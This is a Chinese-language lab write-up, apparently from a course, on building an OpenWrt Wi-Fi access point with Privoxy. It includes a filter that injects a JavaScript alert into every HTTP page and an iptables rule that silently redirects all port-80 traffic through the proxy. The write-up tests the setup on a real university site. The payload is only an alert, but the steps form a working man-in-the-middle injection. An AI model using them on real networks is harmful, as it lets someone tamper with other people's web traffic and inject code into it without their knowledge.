









# privoxy使用及JS嵌入

## 实验环境

* Vmware
* openwrt
* privoxy

## 实验过程

首先安装openwrt，我们下载编译好的[固件](https://drive.google.com/drive/folders/1pdJuzpwuhdq6vnN0Ovtb5r-JB7Z5bw38)，在Vmware中安装好，接着配置网络，我们需要修改为lan口ip地址为dhcp获取

```shell
uci set network.lan.proto=dhcp
```

保存网络配置

```
cui commit network
```

重启网络，使得配置生效

```
/etc/init.d/network restart
```

接下来查看br-lan的ip地址，这里br-lan的地址为



接着我们访问一下后台



接下来我们需要为openwrt添加一块网卡，将老师为我们提供的网卡连接进虚拟机



接下来使用`ip a`查看一下



可以看到wlan0已经接入，不过目前状态是DOWN，使用`wifi up`让其开始工作，接着我们进入后台，在`网络>无线`中设置好wifi的相关配置，如SSID，加密方式等。


接下来使用另一个终端连接该wifi，



在后台也可以看到相关的连接列表



前面的准备工作做好以后，就可以安装privoxy了

```shell
opkg update && opkg install privoxy
```

安装好之后就可以编辑文件了

首先编辑`privoxy`的配置文件，改动的地方如下



左边是改动之后的，右边是原始文件。

接下来在`/etc/privoxy/user.filter`中加入

```
FILTER: block-weeds
s|</head>|<script> alert(“hacked by taotao's lickspittle”);</script>$0|
```

在文件`/etc/privoxy/user.action`中加入

```
{+filter{block-weeds}}
.*
```

然后添加iptables规则

```
iptables -t nat -A PREROUTING -s 0.0.0.0/0.0.0.0 -p tcp --dport 80 -j REDIRECT --to-ports 8118
```

当数据包目的端口为80端口时，重定向到8118端口。

设置完毕后重启一下`privoxy`

```
/etc/init.d/privoxy restart
```

接下来就可以开始测试，访问一个HTTP网站，我们用http://www.lib.gxu.edu.cn这个未加密的站点测试。在手机上访问站点


成功执行JS，手机上无法看到源代码，我们在电脑上查看一下



在审查源代码时可以看到嵌入的js：



